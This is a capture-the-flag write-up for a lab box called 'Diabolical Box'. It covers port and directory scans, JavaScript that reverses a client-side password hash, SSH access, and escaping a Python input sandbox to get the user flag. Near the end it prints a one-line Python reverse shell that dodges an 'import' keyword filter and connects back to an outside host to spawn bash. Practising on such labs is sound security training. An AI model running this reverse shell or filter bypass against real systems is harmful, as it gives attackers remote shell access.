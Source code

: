 # CTF: Diabolical Box

![Difficulty: Hard](https://img.shields.io/badge/difficulty-hard-%23ff0000)
![Contest Date: 2024-05-14](https://img.shields.io/badge/contest%20date-2024--05--14-informational)
![Category: FTP, Hash, Crontab, SSH Key](https://img.shields.io/badge/category-ftp,hash,crontab,sshkey-%237159c1)
![By: Alexandre & Eloi](https://img.shields.io/badge/by-Alexandre-%23f9a03c)  
![alt text](img/diabolicalbox.png)
## Description

> Every puzzle has an answer!

## Write-up

UserFlag: user.txt  
RootFlag: root.txt

## Flag Solutions

### User Flag

First thing to do is to check open ports on the target machine. We can do this by running a port scan using `nmap`.

```bash
nmap -sSV $IP
```

Results : 
```bash
PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    nginx 1.14.0 (Ubuntu)

MAC Address: 02:85:B5:9A:69:1F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have two open ports, 22 and 80. Let's check the web server on port 80.

```bash
http://$IP
```

We arrived on a page, we can `gobuster` the website to find hidden directories.

```bash
gobuster dir --url http://<IP> -w Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,htm,js
````

Results : 
```bash
/index.html (Status: 200)
/login.html (Status: 200)
/signup.html (Status: 200)
/admin.html (Status: 200)
```

We can go to the `/admin.html` page.

```bash
http://$IP/admin.html
```

In the source code we have a `<script>...</script>` who contains a logic for the form, who check a hashed password.
And redirect to the `/very-intricate-puzzle.html'

We have the fonctions to hash the password.

But we need to reverse the hash to get the password with functions write in the script.

```JAVASCRIPT
const letters = [];
const hashed = [];
const token = "<HASH>";
let decodedMessage = "";

// Majuscule
for (let i = 0; i < 26; i++) {
    let letter = String.fromCharCode(65 + i);
    letters.push(letter)
}

// Minuscule
for (let i = 0; i < 26; i++) {
    let letter = String.fromCharCode(97 + i);
    letters.push(letter)
}
console.log(letters)

letters.forEach((e) => {
    hashed.push({letter: e, hash: int_array_to_text(string_to_int_array(int_array_to_text(string_to_int_array(e))))})
});
console.log(hashed)

for (let i = 0; i < token.length; i += 4) {
    let segment = token.substring(i, i + 4);
        
    let found = hashed.find(item => item.hash === segment);
    
    if (found) {
        decodedMessage += found.letter;
    }
}

console.log(decodedMessage);

function string_to_int_array(str){
  const intArr = [];

  for(let i=0;i<str.length;i++){
    const charcode = str.charCodeAt(i);
    const partA = Math.floor(charcode / 26);
    const partB = charcode % 26;

    intArr.push(partA);
    intArr.push(partB);
  }

  return intArr;
}

function int_array_to_text(int_array){
  let txt = '';
  
  for(let i=0;i<int_array.length;i++){
    txt += String.fromCharCode(97 + int_array[i]);
  }

  return txt;
}
```

We can connect to the SSH server with the username and the password we found.

```bash
ssh <USERNAME>@$IP
```

We can find the start of the user flag.

```bash
EPI{............_
```

But now we need to the end of the user flag.
On the url http://<IP>/very-intricate-puzzle.html we have input and result.

We can write python script in the input like this.

```
print("a")
```

And we have the result `The answer to your riddle seems to be: a`

We can't use "import", "exec" and more. It's protected.
We have result : `Hmm it seems this puzzle is protected...`

We can use reverse shell to get the user flag.

```bash
a=__import__;s=a("socket");o=a("os").dup2;p=a("pty").spawn;c=s.socket(s.AF_INET,s.SOCK_STREAM);c.connect(("10.10.120.116",9001));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/bash")
```

We have the end of the user flag.

**Well done! You found the user flag!**
